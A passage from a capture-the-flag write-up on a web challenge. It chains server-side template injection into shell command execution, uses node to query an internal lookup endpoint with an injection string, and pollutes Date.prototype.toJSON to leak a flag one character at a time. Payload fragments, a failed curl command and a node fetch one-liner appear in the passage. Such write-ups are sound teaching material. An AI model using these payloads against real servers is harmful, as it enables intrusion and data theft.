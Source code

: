 ```js
    found = true;
    break;
  }
}
if(!found) Date.prototype.toJSON=()=>"failed";
`
  )
);
console.log("Payload:", payload);
```

Turns out there is no `curl` on the server.

```json
{
   "username":"Korosensei",
   "text":"Your template is safe!",
   "avatar":"/images/korosensei.png",
   "timestamp":"Command failed: curl -X POST \\'http://auth:3000/lookup\\'  -H \\'Content-Type: application/json\\'  -d \"{\\\"username\\\": \\\"\\' || (this.note&&this.note.startsWith(\\'0\\')) || \\'\\\"}\"\n/bin/sh: curl: not found\n"
}
```


#### node

Turns out if we run a `async` script with `node`, it won't exit until all the promises resolve or reject.

You can verify it with this.

It will actually resolve with the contents of the http request.

```sh
node --eval "fetch('https://yun.ng').then(r=>r.text()).then(r=>console.log(r))"
```

This is good for us, because we previously used `execSync` to run any command and get their output in `sync` mode.

At this point I've also finally finished writing the automation script.

And all the blocks just clicked into place, my solve script is working.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1756004458/20250823230058613.png/ecf1bb4809bff976fa466368029640eb.png)

I successfully got the first next character.

> No, it did not work directly, due to the layers of base64 and also the lack of error messages when I have syntax errors in the payload due to layer of escaped quotes. My script became ultra fragile, and slight edits could break it, it was also pain to debug, also the server may crash on it.

## solve script

Small explanation of the solve:
- Registers and login
- Sends a SSTI payload to the server which
	- Spawns a node running a script which
		- Requests `/lookup` with all possible chars for a specific position, the one that passes will print out the char
	- node script resolves with the output of the payload `kumo leaks flag X`
	- Prototype pollute `Date.prototype.toJSON` to return the output
- Expect to receive that in the `timestamp` field
- If it worked, add it to the current flag progress and repeat
